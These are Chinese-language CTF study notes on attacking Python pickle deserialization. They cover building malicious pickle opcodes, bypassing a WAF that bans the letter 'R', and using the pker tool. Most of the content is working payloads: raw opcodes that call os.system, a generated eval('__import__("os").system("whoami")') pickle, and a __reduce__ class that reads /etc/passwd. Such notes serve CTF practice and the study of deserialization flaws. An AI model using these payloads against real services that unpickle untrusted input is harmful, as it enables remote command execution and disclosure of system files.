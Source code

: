 tags:: CTF/Python

- > [参考](https://xz.aliyun.com/t/7012)
- # 构造恶意Pickle文件
	- 某些特定的 Python 代码可以直接被转成 Pickle
	- 可以：
		- 变量赋值 存到 memo 中，保存 memo 下标和变量名即可
		- 函数调用
		- 类型字面量构造
		- list 和 dict 成员修改
		- 对象成员变量修改
- # 绕WAF
	- 字母`R`被禁用
		- ```python
		  import pickle
		  import pickletools
		  
		  opcode=b'''(cos
		  system
		  S'bash -c "sleep 1"'
		  o.'''
		  pickletools.dis(opcode)
		  pickle.loads(opcode)
		  ```
	- 可以用[这个工具](https://github.com/EddieIvan01/pker)生成
		- ```shell
		  $ cat test/code_breaking
		  getattr = GLOBAL('builtins', 'getattr')
		  dict = GLOBAL('builtins', 'dict')
		  dict_get = getattr(dict, 'get')
		  globals = GLOBAL('builtins', 'globals')
		  builtins = globals()
		  __builtins__ = dict_get(builtins, '__builtins__')
		  eval = getattr(__builtins__, 'eval')
		  eval('__import__("os").system("whoami")')
		  return
		  
		  $ python3 pker.py < test/code_breaking
		  b'cbuiltins\ngetattr\np0\n0cbuiltins\ndict\np1\n0g0\n(g1\nS\'get\'\ntRp2\n0cbuiltins\nglobals\np3\n0g3\n(tRp4\n0g2\n(g4\nS\'__builtins__\'\ntRp5\n0g0\n(g5\nS\'eval\'\ntRp6\n0g6\n(S\'__import__("os").system("whoami")\'\ntR.'
		  ```
- # Pickle文件OPCODE分析
	- `python -m pickletools pickle.pkl`
- # 基础
	- 把生成的 bytes 加载即可执行任意代码
	- 对象被 pickle 反序列化时，pickle 会调用对象的`__reduce__`方法（如果有）来获得反序列化的方法
	- ```python
	  #!/usr/bin/python2
	  import pickle
	  import urllib
	  class payload(object):
	      def __reduce__(self):
	         return (eval, ("open('/etc/passwd','r').read()",))
	  a = pickle.dumps(payload())
	  a = urllib.quote(a)
	  print a
	  ```
-